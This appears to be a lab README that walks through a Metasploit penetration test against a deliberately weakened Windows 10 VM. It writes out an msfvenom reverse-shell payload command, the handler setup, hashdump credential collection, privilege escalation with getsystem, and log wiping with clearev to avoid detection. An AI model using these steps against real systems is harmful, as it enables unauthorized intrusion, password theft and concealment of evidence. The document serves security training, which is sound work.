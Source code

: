 <h1>Metasploit Penetration Test Lab</h1>
<p>In this lab, we utilize the Metasploit framework to exploit a vulnerable virtual machine to simulate a penetration test.</p>
<h2>Resources Used: </h2>
<p>- Kali Linux</p>
<p>- Metasploit</p>
<p>- Windows 10</p>
<p>- VMware Workstation Player</p>

<h2>Please note: this is for demonstration purposes only in a lab environment. Do not conduct these actions on any machines without clear permission.</h2>

<h2>1. Setting up Virtual Machines</h2>
<p>- This lab will require a virtual machine that runs Kali Linux, and another virtual machine that requires Windows 10. </p>
<p>- Head to VMWorksation Player and install it according to your actual physical machine (PICTURE Here)</p>
<p>- Once installed, download a Kali Linux ISO & Windows 10 ISO. We will use these files to let our virtual machine have the necessary operating system. Before you install, double-check the hash of the ISO to verify that it hasn’t been modified by anyone else other than the manufacturer.</p>
<p>- Launch VMWorkstation Player, and select “New”</p>
<p>- You can keep all of the default settings, but make sure to choose the correct OS, ISO file, and to make the Network type be bridged. Selecting “bridged” will allow both virtual machines to be on the same LAN as your physical machine. (PICTURE HERE) </p>
<p>- Once the configuration is complete, select "Launch/Play" on the Windows 10 machine, and complete the setup prompts. </p>
<p>- Once the setup is complete, go to the firewall settings and select off for all. This will be what makes the machine vulnerable in this lab environment. If this was a real penetration test, the firewall would most likely be turned on and it would take much more time and effort to try to find a vulnerability to exploit and gain access to the machine. </p>
<p>- Go to the command prompt and type in “ipconfig /all” and hit enter. Take note of what this VM's IP Address is and make sure it’s on the same subnet as your physical machine. (PICTURE HERE)</p>
<p>Select Start to run the Kali Linux virtual machine. You can select all of the defaults for the setup prompts. </p>

<h2>2. Configuring Metasploit</h2>
<p>- In the Kali Linux VM, select the logo on the top left, then scroll down to where it says “exploitation frameworks”. Select Metasploit to launch the terminal. (PICTURE HERE)</p>
<p>- It will ask for the password from the account you made for the VM, once entered Metasploit will start running its configuration.</p>
<p>- From here, you can explore many different exploits, payloads, stagers, & commands by using the “help” or “search” commands</p>
<p>- For this lab, we will be using the exploit called “exploit/multi/handler” which can be used for many different exploits in Metasploit</p>
<p>- Before we use this exploit, we need to get our payload onto the target system that will allow our exploit to be conducted successfully. </p>
<p>- In the msfconsole, type “msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP of Kali Linux machine> LPORT=4444 -f exe > thisismalicious.exe” and hit enter.(PICTURE HERE)</p>
<p>- This command creates our payload into an executable file, which we will send over to the Windows 10 VM. </p>
<p>- In this lab environment, simply copy the file & paste it on the Windows 10 VM since the VM’s firewall/security protections are disabled. In a real penetration test, you most likely will not be able to do this. There are many options you can take, such as social engineering, sending a phishing email, etc.</p>
<p>- Once the executable is on the Windows 10 VM, go back to the Kali Linux terminal and enter “use exploit/multi/handler”. This will create a session in Metasploit and allow us to configure the exploit before running it.</p>
<p>- Enter “show options”, in which you will see that the exploit needs an LHOST, which will be the Kali Linux IP. The LHOST is the listener machine that receives communication from the executable file/vulnerable machine. </p>
<p>Enter “set LHOST <Kali Linux IP>”. Enter “show options" again to see the updated configuration. (PICTURE HERE) </p>

<h2>3. Exploiting the Vulnerable Windows 10 VM</h2>
<p>- Go back to the Windows VM and double-click the executable file</p>
<p>- On the Kali Linux terminal, enter “run”. You should see that the exploit has executed successfully and you are now in a meterpreter shell!
(PICTURE HERE)</p>

<h2>4. Using Meterpreter</h2>
<p>- Meterpreter can be used for a variety of functions in the post-exploitation realm of penetration testing. We can use meterpreter to create persistence, find other vulnerabilities within the victim machine, download sensitive files, etc.</p>
<p>- For now, we can background this session by selecting “ctrl + z” on the keyboard or by typing in “background”.</p>
<p>- Now that we have a session on the victim VM, we can use “post/multi/recon/local_exploit_suggester” (PICTURE HERE)</p>
<p>- Set the session to whatever the session number is listed, and then enter "run"</p>
<p>Once complete, there are multiple exploits that Metasploit found that the victim VM may be vulnerable to. We can use one of these to accomplish tasks that could be beneficial to the penetration test. (PICTURE)</p>
<p>If we go back to our session, we can run a variety of commands to get a lot of information from the VM. “Hashdump” can collect all of the password hashes so that we can brute force them offline for example. (PICTURE)</p>
<p>Try “getsystem” in the meterpreter shell. If successful, this will escalate our account’s privileges to the highest access, Authority. This will allow us to execute almost anything we want on the Windows VM. You can check the status of the account with “getuid”. (PICTURE)</p>
<p>Feel free to play around with the commands in meterpreter to see what it can accomplish. </p>
<p>Once you have accomplished your tasks in the penetration test, you can even remove the logs of what you have done in Event Viewer to avoid detection. In the meterpreter shell, enter "clearev". You should see in Event Viewer that the logs are not appearing for what actions you have performed within the VM. (PICTURE) </p>
<p>There is a lot more to Metasploit, but this is just a very basic overview of what this powerful tool can accomplish in the penetration testing environment!</p>
